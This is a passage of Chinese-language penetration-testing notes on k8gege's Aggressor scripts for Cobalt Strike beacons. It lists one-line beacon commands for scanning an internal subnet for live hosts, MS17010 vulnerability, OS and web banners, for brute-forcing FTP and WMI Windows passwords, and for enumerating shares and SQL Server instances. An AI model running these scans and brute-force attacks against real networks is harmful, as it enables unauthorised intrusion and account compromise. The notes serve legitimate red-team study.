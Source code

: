 	https://github.com/k8gege/Aggressor
 #### 存活主机
	beacon>Cscan 192.168.0.0/24 OnlinePC
![image](/assets/Pentest_Note/master/img/323.png)
 #### MS17010
	beacon>Cscan 192.168.0.0/24 MS17010
![image](/assets/Pentest_Note/master/img/324.png)
 #### 操作系统信息
	beacon>Cscan 192.168.0.0/24 Osscan
![image](/assets/Pentest_Note/master/img/325.png)
 #### 内网站点banner、标题扫描
	beacon>Cscan 192.168.0.0/24 WebScan
 #### FTP爆破
	上传账户密码文件user.txt、pass.txt到beacon目录(beacon>pwd)
	beacon>Cscan 192.168.0.0/24 FtpScan
 #### WMI爆破windows账户密码
	上传账户密码文件user.txt、pass.txt到beacon目录(beacon>pwd)
	beacon>Cscan 192.168.0.0/24 WmiScan
 #### 思科设备扫描
	beacon>Cscan 192.168.0.0/24 CiscoScan
 #### 枚举共享
	beacon> EnumShare
 #### 枚举SQL SERVER数据库
	beacon> EnumMSSQL
